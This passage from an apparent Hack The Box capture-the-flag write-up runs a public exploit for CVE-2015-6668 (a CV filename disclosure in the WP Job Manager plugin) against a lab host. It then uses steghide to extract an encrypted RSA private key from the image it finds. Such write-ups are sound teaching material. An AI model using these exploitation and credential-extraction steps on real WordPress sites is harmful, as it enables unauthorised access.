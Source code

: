     
    
    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $python brute.py 
      
    CVE-2015-6668  
    Title: CV filename disclosure on Job-Manager WP Plugin  
    Author: Evangelos Mourikis  
    Blog: https://vagmour.eu  
    Plugin URL: http://www.wp-jobmanager.com  
    Versions: <=0.7.25  
    
    Enter a vulnerable website: http://10.10.10.10/
    Enter a file name: HackerAccessGranted
    

It didn’t find anything. Given that I was able to upload images in addition to
documents, I went in and added image extensions to the list to check, and on
re-running, it got a hit:

    
    
    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $python brute.py 
      
    CVE-2015-6668  
    Title: CV filename disclosure on Job-Manager WP Plugin  
    Author: Evangelos Mourikis  
    Blog: https://vagmour.eu  
    Plugin URL: http://www.wp-jobmanager.com  
    Versions: <=0.7.25  
    
    Enter a vulnerable website: http://10.10.10.10/
    Enter a file name: HackerAccessGranted
    [+] URL of CV found! http://10.10.10.10//wp-content/uploads/2017/04/HackerAccessGranted.jpg
    

The file is available at that URL:

![image-20200713152624679](https://0xdfimages.gitlab.io/img/image-20200713152624679.png)

### Extract Key with Steg

Given that the box spent all this way leading me to an image, and this is
really old HTB where stuff like steg still rears its ugly head, I downloaded
the file and tried `steghide`, and with no passphrase, it worked:

    
    
    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $steghide extract -sf HackerAccessGranted.jpg 
    Enter passphrase: 
    wrote extracted data to "id_rsa".
    

The file it wrote, `id_rsa` is an encrypted private key:

    
    
    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $cat id_rsa 
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,7265FC656C429769E4C1EEFC618E660C
    